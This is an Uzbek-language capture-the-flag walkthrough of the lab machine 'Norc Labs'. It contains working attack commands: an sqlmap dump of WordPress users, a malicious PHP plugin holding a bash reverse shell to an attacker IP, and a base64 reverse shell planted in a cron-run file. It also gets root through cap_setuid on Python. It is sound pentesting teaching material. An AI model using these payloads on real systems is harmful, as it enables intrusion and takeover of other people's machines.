



Walkthrough: Norc Labs (Linux)
🕵️ Machine Info
| IP Address | OS | Vulnerabilities |
|---|---|---|
| 10.15.0.49 | Linux | SQL Injection, RCE, Cron Job, Capabilities |
Qisqacha xulosa:
- Sensitive Information Disclosure: SQL Injection va himoyalanmagan subdomen orqali login va parollar fosh bo’lishi.
- Remote Code Execution (RCE): WordPress admin paneli orqali zararli plagin yuklash va kod ijro etish imkoniyati.
- Insecure File Permissions:
www-datafoydalanuvchisi o’zgartira oladigan faylning Cron Job orqali ishga tushirilishi (Privilege Escalation).- Linux Capabilities Abuse:
/opt/python3binar faylidagicap_setuidruxsati orqali Root huquqini olish.
1-Bosqich: Razvedka (Reconnaissance)
Bizning birinchi ishimiz — nishonda qaysi portlar ochiqligini aniqlash. Buning uchun nmap dan foydalanamiz.
1.1. Portlarni skanerlash
Avvaliga “yengil” scan qilib asosiy ochiq portlarni bilib olamiz.
nmap 10.15.0.49

Endi ochiq portlarni “chuqurroq” scan qilamiz:
nmap -p 22,80,2222 -sC -sV -A 10.15.0.49

1.2. Virtual Hostlarni sozlash (/etc/hosts)
Nmap yoki brauzer orqali IP ga kirganimizda, sayt bizni norc.labs domeniga yo’naltiradi (redirect). Brauzerimiz bu nomni tushunishi uchun uni /etc/hosts fayliga qo’shishimiz shart.
sudo nano /etc/hosts
Fayl oxiriga quyidagi qatorni qo’shamiz (keyinchalik topiladigan subdomenlarni ham hoziroq qo’shib ketamiz):
10.15.0.49 norc.labs oledockers.norc.labs admin.oledockers.norc.labs
2-Bosqich: Veb Enumeratsiya va Kirish (Web Exploitation)
2.1. SQL Injection orqali ma’lumot yig’ish
Sayt WordPress ekanligini bildik. Login sahifasida (wp-login.php) cookie bilan bog’liq SQL Injection zaifligi borligini aniqladik. Biz bu orqali foydalanuvchilar ro’yxatini tortib olamiz.
sqlmap --dbms=mysql -u "[http://norc.labs/wp-login.php](http://norc.labs/wp-login.php)" --cookie='wordpress_logged_in=*' --level=2 -D wordpress -T wp_users --dump
Bu buyruq ma’lumotlar bazasidan foydalanuvchilar jadvalini (wp_users) ko’rsatib beradi. Natija chiqishi uchun biroz vaqt ketadi va quyidagi kabi natija chiqadi:

Muhim topilma: Biz
adminfoydalanuvchisining email manzilini topdik:admin@oledockers.norc.labs. Bu bizgaoledockerssubdomeni borligini fosh qildi.
2.2. Maxfiy parolni topish
Endi yangi topilgan subdomenga kirib ko’ramiz. Brauzerda quyidagi manzilni oching: (Bu subdomen /etc/hosts fayliga qo’shilgan bo’lishi kerak.)
http://oledockers.norc.labs
Bu sahifada admin o’zi uchun qoldirgan “Eslatma” (Password Reminder) bor:
Hi, this is just in case I forget my password -> admin : wWZvgxRz3jMBQ ZN
2.3. WordPress Dashboardga kirish
Topilgan paroldan foydalanib, asosiy saytning admin paneliga kiramiz.
Manzil: http://norc.labs/ghost-admin

3-Bosqich: Shell olish (Initial Access)
Biz tizimga kirish uchun o’zimizning “josus” kodimizni (Reverse Shell) yuklashimiz kerak. Buning eng oson yo’li — zararli Plagin (Plugin) yaratishdir.
3.1. Zararli plagin yaratish
Kali Linux terminalida quyidagi ishlarni bajaramiz:
shell.php faylini yaratamiz:
nano shell.php
Ichiga quyidagi kodni yozamiz (IP o’rniga o’z IP’mizni yozamiz!):
<?php
/**
* Plugin Name: My Backdoor
* Version: 1.0
* Author: Hacker
*/
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.XX.XX/4444 0>&1'");
?>
Uni ZIP arxivga aylantiramiz:
zip plugin.zip shell.php
3.2. Plaginni yuklash va Shell olish
O’z terminalimizda tinglovchini yoqamiz:
nc -lvnp 4444
WordPress menyusidan Plugins -> Add New Plugin -> Upload Plugin ga o’tamiz.
plugin.zip faylini tanlab Install Now ni bosamiz.
Install’ni bosib o’rnatganimizdan keyin Activate Plugin tugmasini bosishimiz bilan terminalimizda ulanish paydo bo’ladi!
4-Bosqich: Tizimda harakatlanish (Lateral Movement)
Hozir biz www-data (veb server) foydalanuvchisimiz. Hozirgi maqsadimiz — kvzlx foydalanuvchisiga o’tish.
4.1. Shellni barqarorlashtirish
python3 -c 'import pty; pty.spawn("/bin/bash")'
4.2. Zaif Cron Jobni aniqlash
kvzlx foydalanuvchisining papkasini tekshirganimizda qiziq skript topdik:
ls -la /home/kvzlx/
cat /home/kvzlx/.cron_script.sh
Skript /var/www/html/.wp-encrypted.txt faylini o’qiydi, Base64 dan chiqaradi va eval orqali bajaradi. Biz www-data bo’lganimiz uchun o’sha matnli faylga yoza olamiz!
4.3. Ekspluatatsiya (www-data -> kvzlx)
Biz o’zimizning kodimizni Base64 ga o’girib, o’sha faylga yozamiz.
Yangi terminal ochib tinglovchi yoqamiz (Port 5555):
nc -lvnp 5555
Eski terminalda (www-data shellida) quyidagi buyruqni beramiz (IP ni o’zgartiramiz!):
echo "bash -i >& /dev/tcp/10.10.XX.XX/5555 0>&1" | base64 > /var/www/html/.wp-encrypted.txt
Bir daqiqa kutamiz. Cron job ishlaganida, bizning 5555-portimizdagi kvzlx foydalanuvchisi shell keladi.
5-Bosqich: Root huquqini olish (Privilege Escalation)
Endi eng so’nggi bosqich — Superuser (Root) bo’lish.
5.1. Capabilities tekshiruvi
Tizimda g’ayrioddiy huquqlar (Capabilities) berilgan fayllarni qidiramiz:
getcap -r / 2>/dev/null
Natijada: /opt/python3 = cap_setuid+ep chiqadi. Bu shuni anglatadiki, ushbu Python versiyasi o’zining UID raqamini o’zgartira oladi. Biz bundan foydalanib o’zimizni root (UID 0) qilib belgilaymiz.
5.2. Root Shell olish
Quyidagi Python kodini ishga tushiramiz:
/opt/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
Buyruqdan so’ng
whoamideb tekshiramiz. Javob:root. Tabriklaymiz! Mashina to’liq egallandi.
Xulosa
Ushbu mashina orqali biz quyidagi muhim pentesting texnikalarini o’rgandik:
- VHost Enumeration: Yashirin subdomenlarni topish qanchalik muhimligi.
- SQLi & Info Disclosure: Ma’lumotlar bazasi orqali email va domenlarni aniqlash.
- Malicious Plugin: WordPress saytlarida shell olish usuli.
- Insecure Cron Job: Ruxsatnomalar noto’g’ri sozlangan avtomatlashtirilgan skriptlardan foydalanish.
- Capabilities Exploitation: Linux
setuidimkoniyatlari orqali huquqni oshirish.